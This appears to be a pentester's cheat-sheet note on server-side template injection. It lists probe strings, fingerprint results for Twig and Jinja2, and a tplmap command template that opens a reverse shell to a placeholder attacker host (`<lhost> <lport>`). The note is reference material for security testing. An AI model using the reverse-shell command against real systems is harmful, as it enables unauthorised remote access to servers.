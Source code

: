 # Server Side Template Injection

Inject strings that get interpreted as part of the template language a website is using.

## Manual

A First step is to look for vulnerable fields with some standard strings, to evaluate weather the target replaces them with the expected result:
* `${7*7}`
* `${{7*7}}`
If an injection point is found, the type of the template system has to be found. Depending on the type answers to default strings vary and different strings have to be used to exploit them.

## Fingerprints

Teststring: `{{7*'7'}}`
Result:
* Twig: `49`
* Jinja2: `7777777`
* None:  `{{7*'7'}}`


## Tplmap

Basically like sqlmap for sql injections or commix for command injections.

```cheat tplmap example command
python tplmap.py -u 'http://<rhost>:<rport>' -X POST -d '<post data>, mark injection point with *' -c '<cookies>' --reverse-shell <lhost> <lport>
```

## Links

* https://portswigger.net/blog/server-side-template-injection

tags: ssti tplmap jinja2 twig